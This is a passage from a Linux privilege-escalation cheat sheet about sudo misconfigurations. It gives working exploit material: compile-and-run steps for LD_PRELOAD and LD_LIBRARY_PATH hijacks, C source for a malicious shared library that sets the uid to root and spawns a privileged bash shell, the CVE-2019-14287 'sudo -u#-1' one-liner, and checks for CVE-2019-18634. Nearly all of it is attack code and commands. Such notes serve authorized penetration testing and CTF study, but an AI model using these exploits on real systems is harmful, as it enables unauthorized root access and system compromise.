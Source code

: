 ```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/path/to/shell.so apache2
```

#### LD\_LIBRARY\_PATH

After running `sudo -l` if `env_keep+=LD_LIBRARY_PATH` a malicious script can be created and run

{% code title="library_path.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```
{% endcode %}

```bash
ldd /usr/bin/apache2
# From the output choose a shared object to replace i.e. libcrypt.so.1
# Compile the malicious script above to the name of the shared object to replace
gcc -o libcrypt.so.1 -shared -fPIC library_path.c
# Execute
sudo LD_LIBRARY_PATH=. apache2
```

#### CVE-2019-14287

```bash
sudo -l
# If response has (ALL, !root) /bin/bash
# This means that current user can't run /bin/bash as root (!root)

# Exploit
sudo -u#-1 /bin/bash
```

#### CVE-2019-18634

```bash
cat /etc/sudoers
# Look for: Default    env_reset,pwfeedback
sudo su root
# When typing in the password there are asterisks presented (pwfeedback)
sudo -V
# Check the current version against the CVE details

# Multiple exploits can be found online
```

